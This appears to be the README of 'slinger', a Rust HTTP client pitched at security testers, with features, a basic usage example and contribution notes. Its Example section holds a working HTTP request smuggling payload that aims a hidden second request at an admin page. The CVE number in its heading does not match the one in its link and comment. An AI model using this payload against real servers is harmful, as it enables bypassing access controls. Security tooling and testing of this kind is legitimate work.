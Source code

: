 <!-- Improved compatibility of back to top link: See: https://github.com/emo-crab/slinger/pull/73 -->
<a name="readme-top"></a>
<!--
*** Thanks for checking out the slinger. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Don't forget to give the project a star!
*** Thanks again! Now go create something AMAZING! :D
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]
[![crates io][crates-shield]][crates-url]




<!-- PROJECT LOGO -->
<br />
<div align="center">
  <a href="https://github.com/emo-crab/slinger">
    <img src="images/logo.svg" alt="Logo">
  </a>

<h3 align="center">slinger(投石器)</h3>

  <p align="center">
    An HTTP Client for Rust designed for hackers.
    <br />
    <a href="https://github.com/emo-crab/slinger"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="https://github.com/emo-crab/slinger">View Demo</a>
    ·
    <a href="https://github.com/emo-crab/slinger/issues">Report Bug</a>
    ·
    <a href="https://github.com/emo-crab/slinger/issues">Request Feature</a>
  </p>
</div>

<!-- ABOUT THE PROJECT -->

## About The Project

![Product Name Screen Shot][product-screenshot]

- customizable redirect policy
- http/https and socks5/socks5h proxies
- cookie store
- raw socket request
- HTTPS via tls

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- GETTING STARTED -->

## Getting Started

This example enables some optional features, so your `Cargo.toml` could look like this:

```toml
[dependencies]
slinger = { version = "0.2.0", features = ["serde", "cookie", "charset", "tls", "gzip"] }
```

And then the code:

```rust,no_run
#[tokio::main]
async fn main() -> Result<(), Box<dyn std::error::Error>> {
  let resp = slinger::get("https://httpbin.org/get").await?;
  println!("{:?}", resp.text());
  Ok(())
}
```

<!-- USAGE EXAMPLES -->

## Example

- Nginx - Http Smuggling [CVE-2019-20372](https://scap.kali-team.cn/cve/CVE-2020-11724)

```rust
use std::io::BufRead;
use slinger::{ClientBuilder, HTTPRecord};

/// CVE-2020-11724
/// when you're using BurpSuite proxy need **disabled** "set **Connection** header on incoming request"
const RAW: &[u8] = b"GET /test1 HTTP/1.1
Host: 192.168.83.196:8081
Content-Length: 42
Transfer-Encoding: chunked

0

GET /test1 HTTP/1.1
Host: 192.168.83.196:8081
X: GET http://192.168.83.1:8080/admin.jsp HTTP/1.0

";
#[tokio::main]
async fn main() -> Result<(), Box<dyn std::error::Error>> {
  // let proxy = slinger::Proxy::parse("http://127.0.0.1:8080").unwrap();
  let client = ClientBuilder::new().build().unwrap();
  let mut raw = Vec::new();
  // replace \n to \r\n
  for line in RAW.lines() {
    match line {
      Ok(l) => {
        raw.extend(l.as_bytes());
        raw.extend(b"\r\n")
      }
      Err(err) => {
        println!("{:?}", err);
      }
    }
  }
  let resp = client.raw("http://127.0.0.1:9015/", raw, true).send().await?;
  let record = resp.extensions().get::<Vec<HTTPRecord>>().unwrap();
  println!("{:?}", record);
  Ok(())
}

```

_For more examples, please refer to the [example](https://github.com/emo-crab/slinger/tree/main/examples)_

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- CONTRIBUTING -->

## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. Any
contributions you make are **greatly appreciated**.

If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also
simply open an issue with the tag "enhancement".
Don't forget to give the project a star! Thanks again!

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- LICENSE -->

## License

Distributed under the `GPL-3.0-only` License. See `LICENSE` for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- CONTACT -->

## Contact

Your Name - [@Kali_Team](https://twitter.com/Kali_Team) - root@kali-team.cn

Project Link: [https://github.com/emo-crab/slinger](https://github.com/emo-crab/slinger)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->

## Acknowledgments

* [reqwest](https://github.com/seanmonstar/reqwest)

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->

[contributors-shield]: https://img.shields.io/github/contributors/emo-crab/slinger.svg?style=for-the-badge

[contributors-url]: https://github.com/emo-crab/slinger/graphs/contributors

[forks-shield]: https://img.shields.io/github/forks/emo-crab/slinger.svg?style=for-the-badge

[forks-url]: https://github.com/emo-crab/slinger/network/members

[stars-shield]: https://img.shields.io/github/stars/emo-crab/slinger.svg?style=for-the-badge

[stars-url]: https://github.com/emo-crab/slinger/stargazers

[issues-shield]: https://img.shields.io/github/issues/emo-crab/slinger.svg?style=for-the-badge

[issues-url]: https://github.com/emo-crab/slinger/issues

[license-shield]: https://img.shields.io/github/license/emo-crab/slinger.svg?style=for-the-badge

[license-url]: https://github.com/emo-crab/slinger/blob/master/LICENSE.txt

[product-screenshot]: images/screenshot.png

[crates-shield]: https://img.shields.io/crates/v/slinger.svg?style=for-the-badge

[crates-url]: https://crates.io/crates/slinger
